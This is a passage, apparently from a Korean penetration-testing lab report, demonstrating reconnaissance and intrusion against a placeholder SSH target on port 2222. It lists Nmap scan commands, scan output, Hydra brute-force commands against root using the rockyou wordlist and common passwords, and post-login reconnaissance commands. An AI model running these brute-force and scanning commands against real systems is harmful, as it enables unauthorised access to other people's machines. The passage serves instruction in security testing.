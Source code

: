 
## 6. 침투 시나리오 시연

### 6.1 Kali Linux 환경 준비

#### 6.1.1 시스템 설정
```bash
# 시스템 업데이트
sudo apt update && sudo apt upgrade -y

# 네트워크 설정 확인
ip addr show
ping -c 4 [TARGET_IP]
```

### 6.2 정찰(Reconnaissance) 단계

#### 6.2.1 네트워크 스캐닝
```bash
# Nmap을 이용한 포트 스캔
nmap -sS -sV [TARGET_IP]

# 상세 스캔
nmap -A -p 1-65535 [TARGET_IP]

# SSH 서비스 확인
nmap -p 2222 --script ssh-hostkey [TARGET_IP]
```

**결과 분석**:
```
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
```

### 6.3 침투(Exploitation) 단계

#### 6.3.1 SSH 브루트포스 공격
```bash
# Hydra를 이용한 패스워드 크래킹
hydra -l root -P /usr/share/wordlists/rockyou.txt \
      ssh://[TARGET_IP]:2222 -t 16 -V

# 일반적인 약한 패스워드 시도
hydra -l root -p password ssh://[TARGET_IP]:2222
hydra -l root -p 123456 ssh://[TARGET_IP]:2222
hydra -l root -p admin ssh://[TARGET_IP]:2222
```

#### 6.3.2 수동 SSH 접속 시도
```bash
# 다양한 계정으로 접속 시도
ssh root@[TARGET_IP] -p 2222
# 패스워드: password, 123456, admin 등

# 접속 성공 후 초기 명령어
whoami
id
uname -a
```
